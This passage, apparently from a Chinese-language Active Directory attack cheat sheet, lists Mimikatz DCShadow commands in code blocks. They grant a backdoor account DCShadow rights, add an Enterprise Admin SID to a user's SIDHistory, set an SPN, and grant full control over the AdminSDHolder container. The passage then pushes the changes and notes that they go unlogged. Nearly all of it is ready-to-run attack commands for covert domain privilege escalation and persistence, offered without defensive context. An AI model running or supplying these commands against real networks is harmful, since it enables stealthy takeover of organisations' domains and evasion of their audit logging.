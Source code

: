 Set-DCShadowPermissions -FakeDC BackdoorMachine -SamAccountName TargetUser -Username BackdoorUser -Verbose
```

然后，在任何机器上，使用 Mimikatz 进行 DCShadow 攻击。

```
# Set SPN for user
lsadump::dcshadow /object:TargetUser /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"

# Set SID History for user (effectively granting them Enterprise Admin rights)
lsadump::dcshadow /object:TargetUser /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

# Set Full Control permissions on AdminSDHolder container for user
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com")).psbase.ObjectSecurity.sddl

## Then get target user SID:
Get-NetUser -UserName BackdoorUser | select objectsid

## Finally, add full control primitive (A;;CCDCLCSWRPWPLOCRRCWDWO;;;[SID]) for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;[[S-1-5-21-1874506631-3219952063-538504511-45109]])
```

最后，从 DA 会话或之前提供 DCShadow 权限的用户的会话中，运行 DCShadow 攻击。前面的那些操作将不会记录到日志。

```
lsadump::dcshadow /push
```